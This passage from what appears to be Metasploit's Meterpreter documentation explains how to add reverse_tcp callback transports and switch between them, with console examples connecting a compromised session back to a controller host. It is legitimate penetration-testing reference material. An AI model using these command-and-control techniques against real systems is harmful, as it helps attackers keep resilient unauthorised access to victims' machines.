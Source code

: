 The following shows another example which adds another `reverse_tcp` transport to the transport list:

```
meterpreter > transport add -t reverse_tcp -l 10.1.10.40 -p 5005
[*] Adding new transport ...
[+] Successfully added reverse_tcp transport.
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```

Note that these examples only add new transports, they do not change the current transport mechanism. When a transport is added to the list of transports, they are always added at the _end_ of the list, and not the start.

### Changing transports

There are three different ways to change transports, each of which has it's own nuance. However, one thing they do have in common is that transport switching assumes that you have listeners set up to receive the connections. If no such listener/handler is present, then the resiliency features in Meterpreter will cause it to constantly attempt to establish connectivity on that transport using the transport timeout values that were configured. If the transport ultimately fails, then Meterpreter will cycle to the next transport in the list and try again. This will continue until a transport connection is successful, or the session timeout expires. More information on this can be found in the **session resiliency documentation** (link coming soon).

The three different ways to change transports are:

* `transport next` - This command will cause Meterpreter to shut down the current transport, and attempt to reconnect to Metasploit using the next transport in the list of transports.
* `transport prev` - This command is the same as `transport next`, except that it will move to the _previous_ transport in the list, and not the next one.
* `transport change ...` - This command is functionally equivalent to running `transport add`, and hence requires all the parameters that `transport add` requires (resulting in a new transport at the end of the list), and then `transport prev` (which is the same as going from the start of the list to the end). The net effect is the same as creating a new transport and immediately switching to it.

As an example, here is the current transport setup:
```
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10
```
Moving to the next transport:
```
meterpreter > transport next
```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication
